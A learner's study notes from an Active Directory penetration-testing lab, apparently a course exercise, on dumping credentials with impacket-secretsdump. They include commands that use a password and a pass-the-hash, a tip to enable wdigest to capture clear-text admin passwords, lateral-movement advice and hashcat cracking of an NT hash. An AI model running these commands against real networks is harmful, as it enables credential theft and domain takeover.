 # Dumping credentials using impacket-secretsdump
----
- We should go on **==every machine and dump secrets from there==** to find valuable stuff from all the machines.
- It basically **combines all the stuff from `psexec`**
- `impacket-secretsdump MARVEL.local/fcastle:'Password1'@10.0.1.9`
	- ![[Pasted image 20250329161813.png]]
- `wdigest`: Available on older windows (7, 8, XP)
	- We can see ==`**domain admin` password** if they have logged in from secretsdump **in clear text**.==
	- We can enable `wdigest` with local admin access on machine and wait for domain admin to login
- We got `pparker` from Spiderman:
	- ![[Pasted image 20250329162248.png]]
- We can obv. use hashes instead of password as well:
	- `impacket-secretsdump pparker:@10.0.1.10 -hashes aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16`
		- ![[Pasted image 20250329163049.png]]

# Though Process
---
- ==We should always try to run the **obtained hashes on other machines** as well to gain access to **new machines** if that admin is present==
- **Lateral Movement**
![[Pasted image 20250329163153.png]]


# Cracking The Hashes
----
- We only **need the NT (later) portion** for cracking the hashes:
	- `echo 7facdc498ed1680c4fd1448319a8c04f > administrator_dc2_hash`
	- `hashcat administrator_dc2_hash /usr/share/wordlists/rockyou.txt -m 1000`
		- ![[Pasted image 20250329163630.png]]